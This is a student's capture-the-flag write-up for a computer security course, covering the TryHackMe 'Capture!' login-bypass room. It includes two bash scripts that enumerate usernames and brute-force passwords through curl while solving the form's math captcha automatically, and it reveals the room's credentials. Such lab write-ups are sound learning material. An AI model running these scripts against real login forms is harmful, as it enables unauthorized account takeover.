# Fianl Project
## Solving TryHackMe Rooms

By: Nathan Metens

---
## Intro

This is the final project for Intro to Computer Security. In this final, I attempted 4 TryHackMe Rooms. Three of them were successfully solved, the last one, I ran out of luck. The hardest one, was the one I couldn't solve, the easiest, was the "Security Footage" room. On average, each room took about 1-2 days to solve, working 3+ hours on each per day. This was a struggle, but I learned so much. I have a video [here]() where I go through each Room and how I solved it. This is just the documentation, explaining everything in text, showing capture, and the code.

---
## Table of Contents
1. [Capture!](#capture)
2. [Security Footage](#security-footage)
3. [Crypto Failure](#cryptic-failure)
4. [Racetrack Bank](#racetrack-bank)

---
## Capture!
### Can you bypass the login form?
Diffuculty: Easy

Although the difficaulty was "easy", this one took the longest to solve.





The room had two files to download: `usernames.txt` and `passwords.txt`:




At first, I tried random usernames to see what the message would be if I inputed something wrong:



After 10 failed usernames attempts with a bas password, the error came up with a captcha math problem:


Next, I went to the command line and used curl for faster web access. The main curl command was `curl http://10.201.63.166`. This redirected me to the login page and returned the GET. Next, I posted to the page with this curl command: `curl -X POST http://10.201.63.166/login -d "username=metens&password=pass"`, where the `-d` is for the data in the form. Now, I could enumerate much faster and saw that when I solved the captcha, the message would once again tell me that the username was non-existing:



To solve the captcha in curl, I simply added `&captcha=<result>` to the string containing the username and password.

I developed this script to continuously test each username in the `usernames.txt` file until it returned a "Invalid password" error, showing that the username was correct, but the password not.


```sh
#!/bin/bash

usernames="usernames.txt" # The usernames file
password="wrongpass"      # default password
url="http://$1/login"     # program takes ip address as first arg
attempt=223

> responses.txt

# Loop through usernames text file
tail -n +$attempt $usernames | while IFS= read -r username; do

    username=$(echo "$username" | tr -d '\r') # All usernames have carriage returns in the usernames.txt
    echo "Attempt $attempt: $username"; echo ""

    # Make initial POST request with current username
    response=$(curl -s -X POST "$url" -d "username=$username&password=$password")
    echo "$response" >> responses.txt

    # Detect captcha from the response:
    if echo "$response" | grep -q "Captcha enabled"; then
        echo "! Captcha triggered. Solving..."

	# Extract and solve captcha expression from response:
        captcha_expr=$(echo "$response" | grep -Eo "[0-9]{1,4} [-+*/] [0-9]{1,4}")

        # Solve captcha:
        if [[ -n "$captcha_expr" ]]; then
            captcha_result=$((captcha_expr))
            echo "Solved captcha: $captcha_expr = $captcha_result"

            # Retry POST with captcha answer:
            response=$(curl -s -X POST "$url" \
                -d "username=$username&password=$password&captcha=$captcha_result")
            echo "$response" >> responses.txt
        fi
    fi

    # Reevaluate response
    if echo "$response" | grep -q "does not exist"; then
        echo "$attempt -> The user $username does not exist"

    elif echo "$response" | grep -q "Invalid password"; then
        echo "***** $attempt -> Valid Username: $username *****"
        exit 0
    else 
	    continue
    fi

    ((attempt++))
done
```

After about 5-10 minutes of the program running, it finally found the correct username that returned "Invalid password":



We have successfully enumerated the username. It took **307 attempts**! Now, that we have the username, we can enumerate the password. To do that, we need to slightly update the script, I created a new one:

```sh
#!/bin/bash

passwords="passwords.txt"
url="http://$1/login"
username=$2

attempt=300

tail -n +$attempt $passwords | while IFS= read -r password; do

    password=$(echo "$password" | tr -d '\r') # In case of carriage return
    echo "Attempt $attempt: $username"; echo ""

    # Make initial POST request
    response=$(curl -s -X POST "$url" -d "username=$username&password=$password")

    # Detect Captcha
    if echo "$response" | grep -q "Captcha enabled"; then
        echo "! Captcha triggered. Solving..."

        # Extract and solve captcha expression
        captcha_expr=$(echo "$response" | grep -Eo "[0-9]{1,4} [-+*/] [0-9]{1,4}")

        if [[ -n "$captcha_expr" ]]; then
            captcha_result=$((captcha_expr))
            echo "Solved captcha: $captcha_expr = $captcha_result"

            # Retry POST with CAPTCHA answer
            response=$(curl -s -X POST "$url" \
                -d "username=$username&password=$password&captcha=$captcha_result")
        fi
    fi

    # Reevaluate response
    if echo "$response" | grep -q "Invalid password"; then
        echo "Invalid password: $password"
    else
        echo "**** Password cracked for '$username': $password ****"
        exit 1
    fi

    ((attempt++))
done
```

After 344 attempts, the password was also enumerated. So the username is "natalie" and the password is "sk8board". I went back to the url in the web and typed those in and received the flag:




This room was about using basic curl commands, bash scripting for enumeration, and using brute force on all of the passwords and usernames in the given text files. It reminds me of using the rockyou.txt file in some of the labs to crack passwords using hashcat, but this time, through curl.
